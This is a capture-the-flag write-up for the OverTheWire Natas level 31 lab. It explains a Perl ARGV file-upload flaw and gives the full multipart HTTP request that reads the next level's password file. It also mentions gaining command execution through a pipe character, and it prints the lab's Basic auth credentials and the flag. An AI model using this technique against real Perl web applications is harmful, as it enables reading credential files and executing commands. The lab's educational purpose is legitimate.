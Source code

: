 ```yaml
---
layout: default
title: natas31
---
```


You can have a look in this paper, it explains the vulnerability.
[perl sucks + camels](https://www.blackhat.com/docs/asia-16/materials/asia-16-Rubin-The-Perl-Jam-2-The-Camel-Strikes-Back.pdf)

When we supply 2 files, it checks whether one of them has a filename, and then taking the first one.

In addition, usually what happens when it loops through the files, and just getting random string which is the handle of the file.
```perl
while (<$file>) {
```

*However*, if we supply ARGV as the file-content, it'll loop through the `args` and insert them into `open` function. 
By this way we can read `/etc/natas_webpass/natas32`.

Even more, we can get `RCE` as we saw in [natas30](./natas30.md), by supplying the `|` character.

```
POST /index.pl?/etc/natas_webpass/natas32 HTTP/1.1
Host: natas31.natas.labs.overthewire.org
Content-Length: 433
Cache-Control: max-age=0
Authorization: Basic bmF0YXMzMTptN2JmakFIcEptU1lnUVdXZXFSRTJxVkJ1TWlSTnEweQ==
Origin: http://natas31.natas.labs.overthewire.org
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarybY5URDoaIvWBSm4C
Upgrade-Insecure-Requests: 1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://natas31.natas.labs.overthewire.org/index.pl
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9,he;q=0.8
Connection: keep-alive

------WebKitFormBoundarybY5URDoaIvWBSm4C
Content-Disposition: form-data; name="file"; 
Content-Type: application/octet-stream

ARGV
------WebKitFormBoundarybY5URDoaIvWBSm4C
Content-Disposition: form-data; name="file"; filename="sample"
Content-Type: application/octet-stream

bla
------WebKitFormBoundarybY5URDoaIvWBSm4C
Content-Disposition: form-data; name="submit"

Upload
------WebKitFormBoundarybY5URDoaIvWBSm4C--
```
![Flag image](./images/level31.png)

**Flag:** ***`NaIWhW2VIrKqrc7aroJVHOZvk3RQMi0B`*** 